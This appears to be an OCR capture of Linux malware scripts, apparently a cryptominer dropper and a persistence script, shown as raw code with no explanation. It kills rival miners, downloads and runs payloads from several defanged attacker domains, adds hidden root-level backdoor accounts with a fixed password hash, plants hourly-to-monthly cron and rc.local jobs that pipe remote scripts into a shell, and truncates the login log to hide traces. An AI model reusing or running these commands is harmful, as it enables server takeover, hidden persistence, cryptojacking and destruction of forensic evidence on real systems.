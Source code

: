 ```
pkill -9 skrt
pkill -9 .xm.log
pkill -9 zjgw
pkill -9 SSHer
pkill -9 SSher
pkill -9 xm
pkill -f ld-linux-x86-64
pkill -f xm64
pkill -f xm32
pkill -f xig
pkill -f minerd
pkill -f ps
pkill -f .xm
/etc/init.d/crond start
service crond start
iptables -I INPUT -s 185.234.217.11 -j DROP
iptables -A INPUT -s 185.234.217.11 -j REJECT cd /boot ; wget -q http://hehe.suckmyass[.]cf/.o -O .b; chmod +x .b; nohup ./.b  >/dev/null 2>&1
cd /boot ; curl -O http://hehe.suckmyass[.]cf/.o ; chmod +x .o; nohup ./.o  >/dev/null 2>&1
#cd /tmp ; curl -O http://sandbotc2[.]ml/fefe | wget -q http://sandbotc2[.]ml/fefe ; chmod +x fefe; ./fefe ; rm -rf fefe*; >/dev/null 2>&1
echo 128 > /proc/sys/vm/nr_hugepages
sysctl -w vm.nr_hugepages=128
    ulimit -n 65000
    ulimit -u 65000

mkdir -p /tmp/.ha/

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    curl -fsSL http://prax0zma[.]ru/bash -o /tmp/.ha/nsyhs
fi

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    wget -q http://prax0zma[.]ru/bash -O /tmp/.ha/nsyhs
fi

chmod +x /tmp/.ha/nsyhs && /tmp/.ha/nsyhs----
http://r00ts.truthdealmodz.pw/.i 
$ cat .i
#!/bin/bash

useradd -u 0 -g 0 -o -l -d /root -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' localhost >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' VM >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' localhost >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' VM >/dev/null 2>&1
echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.hourly/0;chmod +x /etc/cron.hourly/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.daily/0;chmod +x /etc/cron.daily/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.weekly/0;chmod +x /etc/cron.weekly/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.monthly/0;chmod 777 /etc/cron.monthly/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/rc.local;chmod +x /etc/rc.local;
head -c -384 /var/log/wtmp > .wtmp; mv .wtmp /var/log/wtmp; chmod 664 /var/log/wtmp; chown root:utmp /var/log/wtmp; chmod 777 /etc/cron.*/* ;
```